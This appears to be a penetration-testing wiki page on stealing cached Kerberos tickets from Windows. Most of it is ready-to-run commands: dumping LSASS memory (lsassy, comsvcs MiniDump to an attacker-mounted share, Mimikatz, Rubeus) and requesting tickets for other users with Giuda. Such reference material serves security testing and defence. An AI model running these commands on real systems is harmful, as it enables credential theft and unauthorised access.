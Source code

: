 ```yaml
---
description: MITRE ATT&CK™ Steal or Forge Kerberos Tickets - Technique T1558
---
```


# Cached Kerberos tickets

## Theory

In Windows, [Kerberos](../../../../ad/persistence/kerberos/) tickets are **handled and stored by the** [**lsass** (Local Security Authority Subsystem Service) ](lsass.md)process, which is responsible for security. Hence, to retrieve tickets from a Windows system, it is necessary to **communicate with lsass and ask for them**. As a **non-administrative user only owned tickets can be fetched**, however, as machine **administrator**, **all** of them can be harvested using tools like **Mimikatz, Rubeus** or **Giuda.**

## Practice

### Enumerate

{% tabs %}
{% tab title="Klist" %}
[Klist](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/klist) is a native Windows tool that can display a list of currently cached Kerberos tickets.&#x20;

```powershell
#Enumerate TGT and TGS
klist tickets

#Enumerate sessions
klist sessions
```
{% endtab %}

{% tab title="Rubeus" %}
[Rubeus](https://github.com/GhostPack/Rubeus) can be use to enumerate tickets on windows.

```powershell
.\Rubeus.exe triage
```
{% endtab %}
{% endtabs %}

### Dump tickets

{% tabs %}
{% tab title="UNIX-Like" %}
From an Unix attacking machine, we can remotely dump tickets using [lsassy](https://github.com/Hackndo/lsassy) (python).

```bash
# With a password
lsassy -d <DOMAIN.LOCAL> -u <USER> -p <PASSWORD> <TARGET> -K '/tmp/kerberos_tickets'

# With PtH
lsassy -d <DOMAIN.LOCAL> -u <USER> -H <NTHash> <TARGET> -K '/tmp/kerberos_tickets'

# With PtT
lsassy -k <TARGET> -K '/tmp/kerberos_tickets'
```

We also can do it manually by dumping LSASS memory using one of [this techniques](broken-reference), exfiltrate the dump on our attacking machine, and then retrieve tickets using [pypykatz](https://github.com/skelsec/pypykatz).

```bash
# Example of a dump where Z: is mounted on the attacking host
tasklist /fi "imagename eq lsass.exe"
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $lsass_pid Z:\lsass.dmp full

# Get Tickets
pypykatz lsa minidump /path/to/lsass.dmp -k /tmp/kerberos_tickets
```
{% endtab %}

{% tab title="Windows" %}
[Rubeus](https://github.com/GhostPack/Rubeus) can also be use to dump TGTs from the LSASS process

```powershell
# Dump all tickets
.\Rubeus dump

# Dump the interesting one by luid
.\Rubeus.exe dump /service:krbtgt /luid:<luid> /nowrap

# Write ticket to disk
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<BASE64_TICKET>"))
```

[Mimikatz](https://github.com/gentilkiwi/mimikatz) can be use to dump TGTs from the LSASS process

```
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
```
{% endtab %}
{% endtabs %}

### Ask a TGS

Using tools like **Giuda ,** we can avoid dumping LSASS memory. With the [SeTcbPrivilege](../../../privilege-escalation/windows/abusing-tokens.md#setcbprivilege), we can read LSA storage, extract the SESSION KEY from TGT, and forge a request asking for a TGS; We must use LUID instead of Username.

{% tabs %}
{% tab title="Giuda" %}
[Giuda](https://github.com/foxlox/GIUDA) can be use to requests a TGS on behalf of another user (without password)

```powershell
#Request a TGS
.\guida.exe -gettgs -luid:<LogonID> -msdsspn:<SPN>

#Example
.\guida.exe -gettgs -luid:0x1875dc -msdsspn:HOST/dc01.lab.local
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-kerberos-88/harvesting-tickets-from-windows" %}
